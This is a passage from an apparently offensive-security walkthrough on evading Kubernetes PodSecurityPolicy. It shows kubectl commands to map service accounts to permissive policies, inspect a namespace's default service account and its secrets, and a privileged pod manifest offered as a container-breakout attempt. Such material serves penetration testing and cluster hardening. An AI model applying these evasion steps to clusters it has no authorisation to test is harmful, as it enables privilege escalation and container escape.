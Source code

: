 **Expected Output:** YAML output containing RoleBindings or ClusterRoleBindings with `psp.kubernetes.io` in the `apiGroups` field.  This shows which service accounts or users can bind to which PSPs.

**Why:** Mapping users/service accounts to PSPs is essential. If a vulnerable service account is found bound to an overly permissive PSP (or incorrectly bound), this opens an evasion path.

**Step 2: Identify a Target Namespace and Service Account**

Select a namespace where you have sufficient RBAC permissions to create deployments or other workload objects. Determine which service account will be used by the pods created in that namespace. This is often the default service account for the namespace.

```bash
kubectl config view | grep current-context
```

**Explanation:**  Helps identify the Kubernetes context you're currently working in.  This is important when interacting with multiple clusters.

**Expected Output:** The name of the current Kubernetes context.

```bash
kubectl get namespace <namespace_name> -o yaml
```

**Explanation:** Replace `<namespace_name>` with the name of the namespace you will be working in (e.g., `default`). This command retrieves the YAML definition of the specified namespace, which can reveal default settings.

**Expected Output:** The YAML configuration of the namespace. This might show specific annotations that could influence PSP behavior.

```bash
kubectl get serviceaccount default -n <namespace_name> -o yaml
```

**Explanation:** Replace `<namespace_name>` with the target namespace (e.g., `default`). This command retrieves the YAML definition of the default service account in that namespace.

**Expected Output:** The YAML configuration of the default service account, including any associated secrets.

**Why:** The default service account is often used by pods unless explicitly specified otherwise. If this service account is associated with a permissive PSP (either directly or indirectly through RBAC), it becomes a prime candidate for evasion.

**Step 3: Attempt PSP Evasion with `privileged: true`**

Try to create a pod with the `privileged: true` security context.  This is a common way to attempt to break out of containers. If the PSP blocks it, proceed to step 4.

```yaml
# privileged-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
spec:
  containers:
  - name: privileged-container
    image: busybox:latest
    securityContext:
      privileged: true
    command: ["sleep", "3600"]
```

